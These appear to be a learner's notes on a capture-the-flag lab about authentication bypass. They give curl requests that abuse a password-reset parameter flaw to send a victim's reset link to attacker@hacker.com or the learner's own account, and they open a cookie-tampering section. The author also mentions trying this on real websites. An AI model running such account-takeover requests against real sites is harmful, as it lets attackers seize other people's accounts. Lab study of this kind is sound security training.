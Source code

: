 ```shell
curl 'http://10.10.206.157/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable **REQUEST**, which contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

```shell
curl 'http://10.10.206.157/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}@customer.acmeitsupport.thm`

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.
```shell
curl 'http://10.10.206.157/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

So i must see some stuff on youtube and i see it very cool PWN to website by sending the reset ticket to my account so cool stuff, it will attract not only me but also u, very strange and interesting stuff and i will do this stuff on LAB in hacking repo with realweb<br>
![[Pasted image 20240219140726 1.png]]

![[Pasted image 20240219140738 1.png]]

# Cookie Tampering
Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

## Plaintext
The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

```bash
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/
```

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.
